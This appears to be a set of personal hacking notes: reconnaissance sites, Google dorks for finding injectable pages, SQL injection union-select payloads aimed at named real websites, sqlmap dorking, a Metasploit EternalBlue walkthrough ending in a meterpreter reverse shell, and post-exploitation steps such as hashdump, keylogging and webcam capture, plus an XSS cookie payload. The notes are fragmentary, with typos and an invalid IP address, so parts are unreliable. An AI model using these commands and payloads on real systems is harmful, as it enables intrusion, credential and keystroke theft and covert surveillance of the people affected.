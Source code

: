 whois.domaintools.com

archive.org

HTTrack website copier

www.facebook.com/robots.txt

w3schools.com

vimeo.com manupilation of URL

www.zone-h.org

readexifdata.com

hackerone.com

bugcrowd.com

h1.nobbd.de

www.salesforce.com

cobalt.io
bitly.com

z-shadow.info

intitle: index of /"DCIM"

bomb it up

103.16.1011.52:8080

oneway.cab

Majja ni life 
103.51.27.106

site:www.flipkart.com inurl:"magnetic watch"

intex:"ethical hacking"
filetype:pdf
inurl:.pk inurl:php?id=
http://www.multan.gov.pk
site:rbtechindia.com inurl:php
			SQL INJECTION
www.citicollege.edu.pk/main.php?Id=2 order by 1--
				   -2 union select 1,2,3,4,5,6,7,8-- -
www.rbtechindia.com/	= 102' order by 16-- -
			       union select 1,2,...,16--
			       union select 1,2,3,4,version(),...,16--
			       union select 1,2,3,4,database(),...,16--
			       			   ,table_name,      from information_schema.tables where table_schema=database()-- -
						   ,group_concat(column)

	http://www.citicollege.edu.pk/main.php?Id=-2%20union%20select%201,2,3,4,5,table_name,7,8%20from%20information_schema.tables%20where%20table_schema=database()--%20-
lito_content1
lito_user
swingnote.com
0x haxvalue
C:/Python27/sqlmap.zip
go to sql directory
sqlmap.py -g inurl:php?id=1
------------------------------------------------------------------------------------------------------------------------------------------------

exploit-db.com
inurl : readme.html intex: "vesion"
man in the middle attack -> ssl certification for sniffing attack
ettercap application

Zanti,Cxploit						metasploit GUI version : Armitage

Nmap Scaning with NO Ping 
-Ping all the IPs and add host
-Click on Attacks -> Find Attacks

Trojan->Reverse Connection

smb server->Comunicate with other type of OS

smb_ms17_010 vul.

msf console

use auxiliary/scanner/smb/smb_ms17_010
set rhost <target ip>
run(To check vul.)

back
use exploit/windows/smb/ms17_010_eternalblue

set remote host <our ip>

show options

set payload widows/x64/meterpreter/reverse_tcp
set lhost <my ip>
set lport 4444

VerifyArch -> FALSE

set verifyarch false

exploit


sysinfo(Shows info of system)
getsystem

webcam_snap(Gives Snap of Target Machine)
webcam_stream 
help

hashdump

keyscan_start
keyscan_dump

ps
pkill

we can use cd also.

" "->\' '

download <something>
upload <something>

------------------------------------------------------------------------------------------------------------------------------------------------

						XSS(Cross Site Scripting)

owasp.org -> bypass using this scripts

"><img src = x onerror = prompt(1);>
				document.cookie()

owasp.org
cyberry.com
